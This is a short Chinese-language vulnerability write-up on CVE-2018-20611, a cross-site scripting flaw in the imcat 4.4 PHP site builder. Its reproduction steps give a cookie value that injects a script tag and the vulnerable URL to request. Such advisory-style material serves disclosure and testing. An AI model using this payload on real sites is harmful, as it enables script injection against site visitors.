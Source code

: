 # （CVE-2018-20611）Imcat 4.4 xss

> 原文：[http://book.iwonder.run/0day/Imcat/CVE-2018-20611.html](http://book.iwonder.run/0day/Imcat/CVE-2018-20611.html)

## 一、漏洞简介

imcat 是一套基于 PHP 的开源建站系统。 imcat 4.4 版本存在跨站脚本漏洞。远程攻击者可通过向 root/tools/adbug/binfo.php?cookie URI 发送特制的 cookie 利用该漏洞注入任意的 Web 脚本或 HTML。

## 二、漏洞影响

imcat 4.4

## 三、复现过程

将 cookie 的值修改成

```
"><script>alert(1)</script> 
```

![](img/44b171a6dee74254064dd57a786ffd0b.png)

然后访问

```
http://www.0-sec.org/root/tools/adbug/binfo.php?cookie` 
```

![](img/e22486a1e27e45c18b0c6ba222adc2c1.png)

## 参考链接

> [https://github.com/AvaterXXX/CVEs/blob/master/imcat.md](https://github.com/AvaterXXX/CVEs/blob/master/imcat.md)

